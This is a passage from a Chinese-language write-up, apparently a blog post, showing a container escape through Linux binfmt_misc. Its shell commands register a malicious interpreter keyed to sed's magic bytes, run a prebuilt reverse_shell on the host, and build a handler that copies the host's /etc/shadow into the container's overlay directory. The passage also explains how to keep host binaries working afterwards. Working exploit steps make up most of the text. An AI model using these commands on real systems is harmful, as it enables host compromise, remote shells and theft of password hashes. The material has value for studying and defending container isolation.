 容器内修改sed命令的解释器，各个发行版sed对应的offset和magic可能不同，按照实际情况修改，容器内执行的代码如下：

测试容器里没有gcc，为了方便测试，宿主机编译好reverse_shell之后挂载到容器/t目录里
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
echo ":exp:M:240:\x30\xa6\x01\x00\x00\x00\x00\x00::/t/reverse_shell:F" > /tmp/binfmt_misc/register
chmod +x /t/reverse_shell
sed
```

![](media/16423261310936/16450209599262.jpg)

#### 修改解释器之后命令不能正常执行问题
  
完成binfmt_misc修改之后宿主机上原本的命令执行会出现问题，无法正常使用
   
增加binfmt_misc之后宿主机正常二进制文件无法执行的原因是新注册的解释器并没有对二进制文件进行执行，只是完成了漏洞利用的逻辑，在centos中（本文仅对contos进行了测试，其他linux发行版没有进行测试），系统通过`/lib64/ld-linux-x86-64.so.2`执行二进制文件，通过file命令也可以验证二进制文件的解释器如下图
   
![](media/16423261310936/16446818691650.jpg)
    
所以解决这个问题的方式就比较简单了，修改container.sh内容为如下：
    
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "#!/bin/bash" > /tmp/handler.sh
echo "" >> /tmp/handler.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
# add this
echo "/lib64/ld-linux-x86-64.so.2 /usr/bin/ls" >> /tmp/handler.sh
chmod +x /tmp/handler.sh
echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
```